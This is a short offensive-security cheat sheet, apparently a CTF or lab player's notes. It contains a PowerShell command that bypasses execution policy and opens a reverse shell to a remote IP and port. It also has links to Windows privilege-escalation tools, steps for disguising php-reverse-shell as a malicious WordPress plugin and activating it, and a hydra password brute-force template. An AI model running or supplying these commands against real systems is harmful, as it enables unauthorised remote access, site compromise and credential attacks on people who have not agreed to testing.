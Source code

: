 Powershell.exe -exec bypass -Command "& {Import-Module .\shell.ps1; Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.38 -Port 7070}" 

 
# Powerup PS1 

https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1 

 
# PAYLOADS ALL THE THINGS

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/98124178dbb3006e7f9df09d4b972314cd2ba96b/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md 


# Wordpress Malicious Plugin

Add header to php-reverse-shell 

/*                                                                                                                             
Plugin Name: Pwn quaoar!                                                                                                       
Plugin URL: www.google.com                                                                                                     
Description: PwnMyPwnFace                                                                                                     
Author: Pete                                                                                                                   
Version: 1.0                                                                                                                  
Author URI: www.google.com                                                                                                     
*/  

Zip mal.zip php-reverse-shell.php 

Add it to the plugins and activate it. 


# HYDRA

hydra -[ l | L ] <login | list> -[ p | P] <password | list> -t <threads> <ip> <format [http-post-form usually]> “<page>:<parameters>:<failed text>” 
